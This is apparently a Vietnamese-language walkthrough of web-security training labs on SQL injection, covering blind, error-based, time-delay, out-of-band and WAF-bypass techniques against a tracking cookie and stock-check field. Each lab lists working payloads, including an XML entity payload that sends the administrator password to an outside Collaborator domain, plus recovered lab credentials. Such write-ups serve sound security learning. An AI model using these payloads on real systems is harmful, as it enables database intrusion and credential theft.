

Payload 1 cho vị trí sẽ là number list từ 1 -> 20

Payload 2 cho ký tự sẽ là từ a-z, 0-9

Bấm attack, sau khi có kết quả thì ta sẽ vào Setting🡪 Grep – Match 🡪 thêm vào Welcome back! (những trường hợp có phản hồi trên web page), khi filter xong ta sẽ có password như sau



password: du00h1nhnt2felozaprd

Đăng nhập tk admin:



# Lab12: Blind SQL injection with conditional errors

Trong lab này ta sẽ Blind SQLi tại phần tracking cookie. Không có SQL query nào được hiển thị lại và không có phản hồi query nếu có trả về dòng nào. Nếu SQL query gây ra lỗi thì web page sẽ có thông báo lỗi

## **Root cause:**

Khi có cookie người dùng, máy chủ sẽ thực hiện câu truy vấn như sau:

Máy chủ không kiểm tra hoặc làm sạch (sanitize) dữ liệu đầu vào từ tham số TrackingId trước khi đưa vào truy vấn SQL. Không có cơ chế loại bỏ hoặc escape các ký tự nguy hiểm (ví dụ: ', ;, --) trong đầu vào.

## **Cách khai thác:**

Nếu biết được loại database đang được sử dụng thì ta có thể sử dụng đúng syntax để gây ra lỗi. Nhưng do vẫn chưa biết được db type nên ta sẽ thử:

Cookie: TrackingId=i0G8Pe6NAq6h7m51'||(SELECT '')||' (trả về 1 chuỗi rỗng hợp lệ)



Nhưng máy chủ lại xảy ra lỗi nên ta sẽ thử một query hợp lệ khác:

Cookie: TrackingId=i0G8Pe6NAq6h7m51' AND (SELECT '' FROM dual)='

Lúc này lỗi không còn xảy ra nên ta có thể đoán db hiện tại là Oracle. Ta sẽ thử conditional error trong SQL cheat sheet



Với query: ' AND (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)='a

Thì máy chủ sẽ xảy ra lỗi ( 1=1 -> True, then 1/0 -> lỗi chia cho 0). Tận dụng sự phản hồi này ta có thể check tên administrator và password length bằng query:

'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'

Dùng burp Intruder ta biết được password length = 20 (vì có tên user=administrator và password length > 19 là True còn > 20 là False)

Tiếp theo ta sẽ dùng Cluster Bomb trong Intruder để tìm ra password với query:

'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'



Ta có được password khi filter tất của những request có status code = 500 (gây ra lỗi)



Password: j27em54a7nsll1tl7ycn



# Lab13: Visible error-based SQL injection

Trong lab này khi có một lỗi sai nào đó trong query thì máy chủ sẽ hiển thị chi tiết lỗi đó ra web page ví dụ khi thêm ‘ vào TrackingId thì sẽ có thông báo sau:



## **Root cause:**

Khi có cookie người dùng, máy chủ sẽ thực hiện câu truy vấn như sau:

Máy chủ không kiểm tra hoặc làm sạch (sanitize) dữ liệu đầu vào từ tham số TrackingId trước khi đưa vào truy vấn SQL. Không có cơ chế loại bỏ hoặc escape các ký tự nguy hiểm (ví dụ: ', ;, --) trong đầu vào.

Máy chủ không bắt lỗi mà lại hiển thị chi tiết lỗi ra web page

## **Cách khai thác:**

Nếu như máy chủ đã hiển thị lỗi chi tiết như vậy thì không khác gì đang hướng dẫn ta khai thác các lỗi đó

Khi thử: ' AND CAST((SELECT 1) AS INT)—(cast dùng để chuyển đổi kiểu dữ liệu) thì sẽ có báo lỗi sau đk AND phải là dạng dữ liệu bool:



Khi thử lấy ra user name trong user bằng:' AND 1=CAST((SELECT username FROM users) AS INT)— (nếu có thể lấy ra username trong table users thì 1=1🡪 True 🡪 hợp lệ) thì thông báo là:

Ta có thể thấy query bị cắt đi mất 1 đoạn nên sẽ thử **xóa bớt** đi phần tracking id, khi này thông báo là

Như vậy ta chỉ có thể lấy ra 1 user trong 1 lần truy vấn ta có thể thử:

' AND 1=CAST((SELECT username FROM users AS INT WHERE username='administrator')—

Nhưng do query quá dài nên không thể thực hiện dù đã xóa hết trackingid nên ta sẽ dùng query:

' AND 1=CAST((SELECT username FROM users LIMIT 1) AS INT)—

Khi đó ta biết được username đầu tiên là administrator, vậy ta sẽ lấy pass bằng:

' AND 1=CAST((SELECT password FROM users LIMIT 1) AS INT)--

# Lab14: Blind SQL injection with time delays

Trong lab này ta sẽ Blind SQLi tại phần tracking cookie. Không có SQL query nào được hiển thị lại và không có phản hồi query nếu có trả về dòng nào, gây ra lỗi thì web page sẽ không có thông báo lỗi. Để hoàn thành lab cần làm máy chủ delay 10s

## **Root cause:**

Khi có cookie người dùng, máy chủ sẽ thực hiện câu truy vấn như sau:

Máy chủ không kiểm tra hoặc làm sạch (sanitize) dữ liệu đầu vào từ tham số TrackingId trước khi đưa vào truy vấn SQL. Không có cơ chế loại bỏ hoặc escape các ký tự nguy hiểm (ví dụ: ', ;, --) trong đầu vào.

## **Cách khai thác:**

Các SQL query thường được xử lý đồng bộ bởi máy chủ, việc delay thực hiện SQL query cũng trì hoãn HTTP response. Điều này cho phép bạn xác định tính đúng đắn của điều kiện được inject dựa trên thời gian nhận được HTTP response

Ta có thể thử một số payload sau trong Intruder:

||dbms_pipe.receive_message(('a'),10)

WAITFOR DELAY '0:0:10'

||pg_sleep(10)

SLEEP(10)

Vì máy chủ sử dụng PostgreSQL nên có thể thực hiên: '||pg_sleep(10)--

# Lab15: Blind SQL injection with time delays and information retrieval

Trong lab này cũng dùng time delay. Để hoàn thành lab ta cần thử các payload dạng điều kiện và khi đk đúng thì máy chủ sẽ delay. Việc delay giống như 1 sự thông báo vì không có SQL query nào được hiển thị lại và khi gây ra lỗi thì web page sẽ không có thông báo lỗi.

## **Root cause:**

Khi có cookie người dùng, máy chủ sẽ thực hiện câu truy vấn như sau:

Máy chủ không kiểm tra hoặc làm sạch (sanitize) dữ liệu đầu vào từ tham số TrackingId trước khi đưa vào truy vấn SQL. Không có cơ chế loại bỏ hoặc escape các ký tự nguy hiểm (ví dụ: ', ;, --) trong đầu vào.

## **Cách khai thác:**

Thử làm máy chủ delay bằng payload: '||pg_sleep(10)—(delay được)

Tiếp theo ta sẽ tận dụng cơ chế delay này trong các truy vấn điều kiện

';SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--

Giải thích: payload trên sẽ làm máy chủ delay 5s (vì 1=1)

Nhưng vì trong payload có dấu “;” dùng để kết thúc query trước đó, mà dấu “;” cũng dùng để ngắt các thông tin trong các HTTP request nên sẽ xảy ra lỗi

Vì vậy ta phải URL-encode payload này thành: (Ctrl + U trong Repeater)

'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(5)+ELSE+pg_sleep(0)+END--

Sau khi máy chủ delay thành công thì ta sẽ kiểm tra username administrator và password length trong Burp Intruder:

'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(15)+ELSE+pg_sleep(0)+END+FROM+users--

Nếu đk đúng thì máy chủ delay 15s ta có thể xem tại cột Reponse received, đó là số mili giây cần để phản hồi

Password length = 20

Ta sẽ dùng Cluster Bomb attack để tìm ra pass với payload:

'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

Filter những pyload có trên 10s phản hồi ta có:

Password: m50a98gdn3z51kklef6c

# Lab16: Blind SQL injection with out-of-band interaction

Trong lab này ta có thể SQLi tại TrackingId để thực hiện DNS lookup trong Burp Collaborator

## **Root cause:**

Khi có cookie người dùng, máy chủ sẽ thực hiện câu truy vấn như sau:

Máy chủ không kiểm tra hoặc làm sạch (sanitize) dữ liệu đầu vào từ tham số TrackingId trước khi đưa vào truy vấn SQL. Không có cơ chế loại bỏ hoặc escape các ký tự nguy hiểm (ví dụ: ', ;, --) trong đầu vào.

## **Cách khai thác:**

Ta có thể dùng payload như sau:

'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)—

Trong Burp Collaborator chọn Copy to clipboard và paste vào payload:

'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://w7467kkvimmo457v9ikf2x63yu4lsbg0.oastify.com/"> %remote;]>'),'/l') FROM dual)--

Khi inject payload này vào TrackingId và URL-encoded đợi 1 lúc thì ta sẽ có kết quả như thế này:

# Lab17: Blind SQL injection with out-of-band data exfiltration

Trong lab này ta có thể SQLi tại TrackingId để thực hiện lấy được password của admin trong Burp Collaborator

## **Root cause:**

Khi có cookie người dùng, máy chủ sẽ thực hiện câu truy vấn như sau:

Máy chủ không kiểm tra hoặc làm sạch (sanitize) dữ liệu đầu vào từ tham số TrackingId trước khi đưa vào truy vấn SQL. Không có cơ chế loại bỏ hoặc escape các ký tự nguy hiểm (ví dụ: ', ;, --) trong đầu vào.

## **Cách khai thác:**

Ta sẽ gán phần truy vấn vào đầu của subdomain như thế này:

'||(SELECT password FROM users WHERE username='administrator')||'.BURP-COLLABORATOR-SUBDOMAIN

Dùng payload trong cheat sheet và copy BURP-COLLABORATOR-SUBDOMAIN đã có payload hoàn chỉnh sau:

'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.1fhbfps0qrutcaf0hnska2e86zcr0ho6.oastify.com/"> %remote;]>'),'/l') FROM dual)--

Inject vào TrackingId và URL-encoded, đợi 1 lúc ta sẽ có DNS như sau:

Vói phần đầu của DNS là password của admin: rwfxkvjmo7berxfkgl1b

# Lab18: SQL injection with filter bypass via XML encoding

Trong lab này có chứa vul SQLi tại check stock, ta sẽ thực hiện SQLi để lấy password của administrator. Tuy nhiên WAF sẽ block những dấu hiệu có SQLi quá rõ ràng

## **Root cause:**

Web application firewall (WAF) chưa được cấu hình đúng cách, có thể dễ bypass bằng extension Hackvector trong BurpSuite

## **Cách khai thác:**

Đầu tiên ta thử inject query này vào phần storeId:

SELECT paasword FROM users WHERE username='administrator'

Máy chủ sẽ phản hồi attack detected

Khi này ta sẽ cài đặt Hackvector trong BurpSuite và chuột phải vào query đã chèn vào storeid > Extensions > Hackvertor > Encode > dec_entities/hex_entities.

Tiếp theo ta sẽ xác định số cột bằng ORDER BY: có 1 cột

Dùng UNION và gộp cột username và password:

UNION SELECT username || '---'|| password FROM users

HTTP response:

wiener---q1de4baketwfb9rfexgx

administrator---y0fpum3uhwarnw7i84qn

carlos---adev4f7tutn5kkmrznu2

Đăng nhập vào tk admin:

